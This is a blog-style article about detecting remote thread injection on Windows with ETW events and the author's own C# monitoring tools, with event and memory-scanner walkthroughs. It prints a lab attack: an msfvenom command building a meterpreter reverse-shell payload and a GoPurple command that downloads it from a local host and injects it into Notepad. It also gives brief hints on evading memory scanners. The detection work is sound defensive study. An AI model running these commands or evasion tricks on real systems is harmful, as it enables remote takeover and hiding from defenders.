







ETWPM2Monitor2 & Remote-Thread-Injection Detection by ETW
ETWPM2Monitor2 & Remote-Thread-Injection Detection by ETW
in this article i want to talk about "Remote-Thread-Injection Detection by ETW" also i want to talk about C# codes like "ETWProcessMon2.exe & ETWPM2Monitor2", which i made for Monitoring ETW events for Remote-Thread-Injection Detection, but the goal is talking/thinking about how can use ETW as Defender/Blue teamer for Defensive tools like EDR/AVs or your own Tools etc. so does not matter what i did in my C# codes, these codes just is for test to show you how can use ETW as Blue teamer but these things/codes made by my opinion & my focus was on Remote Thread Injection attack also my focus was on those things which i think blue teamers should know them better than before and these code was for Chapter15 of ebook [bypassing AVs by C# Programming], (i will publish ch15 soon ;D) which is about how can use ETW for Defenders/Blue teamers & ... in these two C# codes, i used ETW Events by some C#.NET nuget which made by Microsoft... so my Detection based on ETW Events which made by ETW + C# codes but you can make your own tools like this with some other Events like SysMon Events etc (which i think is good idea). i will work on Sysmon Events in these codes in the future but now i just want to talk about some example/test also what we can have by ETW for Defenders or Blue teamers but this code will be useful for Pentesters/Red teamers too [i hope].
background of codes is very simple, in (step1) ETW events will create by ETWProcessMon2.exe & this code will save ETW events to the Windows Event Log name "ETWPM2" also at same time events will save to text file too, in (step2) with ETWPM2Monitor2 tool you can read Windows Event Log "ETWPM2" which is our ETW events like Real-time monitor tool for Attack Detection &..., in this Windows event log we have [EventID 1: New Process event (information)] [EventID 2: RemoteThreadInjection event (warning)] [EventID 3 : TCP Send event (information)]
with EventID1 you can see what new process created with EventID2 you can Detected which process (ProcessA) has/had RemoteThreadInjection which means New Thread Created into ProcessA by another Process (ProcessB) & with EventID3 you can see Which Process Has/had Network Connection (TCP Send traffic) which means Target Process (ProcessA) after injection has/had network connection to Attacker IPaddress, int this EventID3 you can see which process connected to which RemoteIPAddress:RemotePort
ETWPM2Monitor & Simple Attack Example for RemoteThreadInjection
now i want to talk about this simple code/tool & Threat Detection (RemoteThreadInjection attack) by ETW Events... ,
in the "Picture1" you can see i used "GoPurple.exe" tool which is very simple also useful for testing you own Defensive Tools etc, my syntax for test this attack technique 9 (CreateRemoteThreadNative) by GoPurple.exe was :
GoPurPle.exe -u Http://192.168.56.1:8000/Shell2.bin -p 4684 -t 9
shell.bin made by Msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 -f raw > shell2.bin and 4684 is PID for Target Process in this case Notepad.exe and -t 9 is CreateRemoteThreadNative Technique
Note: GoPurple =>https://github.com/sh4hin/GoPurple
before start attack,(step1) i need to run ETWProcessMon2.exe for Creating ETW events into Window Event log [real-time], in the (step2) we need to run ETWPM2Monitor2 (v2) for Monitoring ETW Events in Windows Log like real-time monitor, now in the (step3) you can run GoPurple, as you can see in my ETWPM2Monitor tool all (steps) for this Remote-Thread-Injection attack detected by ETW Events
EventID 1: GoPurple:5792 => first event was Executing GoPurple.exe as New Process [EventID 1] which with properties for this event you can see Command Prompt args too
EventID 2: Notepad:4684 => next event was about Notepad.exe which has/had Remote Thread Injection by GoPurple.exe as you can see in the "Picture1" in [EventID 1] properties we had command prompt which you can see -p 4685 and this [EventID 2] is related to that information from previous event id 1
EventID 3: Notepad:4684 => in last event we have Network TCP Send from Notepad to the Attacker IPAddress which means Injection was worked very well all these events was about 3 seconds only

Picture 1: ETWProcessMon2 & ETWPM2Monitor2 (v2), Technique Detection
now you can see what exactly happened in memory for target process & in my simple C# code if some Process has/had these 3 Steps then Alarm Flag is true and this code will set new Event to Alarm for that target process for Scanning Memory or ...
but before talk about Alarms let me show you Picture2 & 3 which is about EventID2 & 3 Properties which is very important

Picture 2: ETWProcessMon2 & ETWPM2Monitor2 (v2), Technique Detection, Injection Event Properties
in the "Picture 2" you can see ETW EventID2 Properties for Notepad:4684 & in the Debug info we have 1192::0x0238b0ff0000:7052:5792[Injected by GoPurple.exe:5792],you can see this information with right-click on EventID2 [INJ] & select Event Properies on menu very simple.
TID::StartAddress_for_TID:PTID:PPID/Injector
1192::0x0238b0ff0000:7052:5792
in this Debug information we have something like this => TID 1192 injected into target Process Notepad:4684 by Injector Process GoPurple:5792 & that TID:1192 has StartAddress 0x0238b0ff0000, this information is very important for Payload Detection , because StartAddress of Thread is key to find Payload in target process by Defender/BlueTeam Tools. Some AVs will Detect this TID to kill that some of them will Suspend this TID but some of them will terminate/kill or suspend Target Process (Depends on tools)
in the next "Picture3" you can see for each "EventID 2" you can see more info about Injection with right-click on events + selecting "Injected TID Memory Info" on menu.

Picture 3: ETWProcessMon2 & ETWPM2Monitor2 (v2), Technique Detection, Injection Memory Properties
Technique/Payload Detection + Alarms by ETW & Memory Scanners
as you can see in the Pictures 1,2,3 we had GoPurple.exe as Attacker tool and 3 eventIDs for that , now in the "Picture 4" you can see what happened with Command Prompt & Meterpreter Session, as you can see GoPurple.exe executed & Meterpreter Session Established,in localtime [8:56:26] Injection happened & in these times [8:56:30][8:56:33][8:56:34] after 3...4 Seconds i had 3 New Events in Alarms by ETW TAB which Notepad:4684 "Scanned & Found" also you can see details about Injector in this New Event which made by C#.
these information is very useful for defenders for detection also as Pentester/RedTeamer you can use your own Offensive tools to test for Detection & Detection bypassing etc , if you can change your TID StartAddress (Spoofing) or if you used Obfuscation/Encryption for Payload in-memory maybe you can bypass this Technique for Detection ;D (Bypassing Memory Scanner for payload detection), some offensive tools will execute payload in meomry & after execute payload immediately will change that or... that means they will rewrite in this StartAddress, so if you wrote some codes to monitoring VirtualMemAlloc on target process you will see some payload byte on some StartAddress changed very fast "always or sometimes", you can write this code with C# + ETW for Monitoring VirtualMemAlloc events for each process and ETWProcessMon2.exe will save VirtualMemAlloc Events for all processes into text log file too.

Picture 4: ETWProcessMon2 & ETWPM2Monitor2 (v2), Technique/Payload Detection by Memory Scanner
in the next "Picture 5" you can see Alarm Properties for this Detection which we have General information about New Detection Event also we have Details about Memory Scanner Results (Pe-sieve & HollowsHunter) which are good tools for defenders also you can see Injector Properties & details about command-prompt args... and finally you can see ETW [EventsID 2] behind this Detection with debug info.
Note: you can see in the "Picture 5" TID + StartAddress of Injected Thread by ProcessHacker & ETW Events.
Note: pe-sieve64 =>https://github.com/hasherezade/pe-sieve
Note: hollows_hunter =>https://github.com/hasherezade/hollows_hunter

Picture 5: Payload ETWProcessMon2 & ETWPM2Monitor2 (v2), Technique/Payload Detection by Memory Scanner
in the next "Picture 6", you can see with TID & StartAddress, you can find Meterpreter Payload in target process memory very simple.

Picture 6: ETWProcessMon2 & ETWPM2Monitor2 (v2), Technique/Payload Detection by Memory Scanner
these information made by ETW is very useful for Defenders/Blueteams tools like EDR/AVs etc.
in the next "Picture 7" you can see all events which monitored by ETWPM2Monitor2.exe (real-time)

Picture 7: ETWProcessMon2 & ETWPM2Monitor2 (v2), Technique/Payload Detection by Memory Scanner
Note: i tested these C# codes + ETW events Against some techniques like Process Hollowing & Process Doppelganging by [Minjector], C# Process-Hollowing, C# Dinvoke, C# syscall, Classic Remote-Thread-Injection, Loading dll/functions from Memory [32BIT], APC Queue Code Injection, Process-Ghosting, EtwpCreateEtwThread, RtlCreateUserThread, CreateRemoteThreadNative, CreateThreadpoolWait by [GoPurple] & ...
Note: C# codes for ETWProcessMon2 & ETWPM2Monitor (v1.2) => https://github.com/damonmohammadbagher/ETWProcessMon2
Note: ETWPM2Monitor2 (v2) C# code which in this article you saw is not ready, i will publish v2 soon
at a glance: as defender (Blue teams) you can use ETW for your own tools for Detection and Some Anti-viruses & EDRs are working these days with ETW events also as Pentester/Redteamer you can test your offensive tools against Detection by ETW events [why not?] ¯\_(ツ)_/¯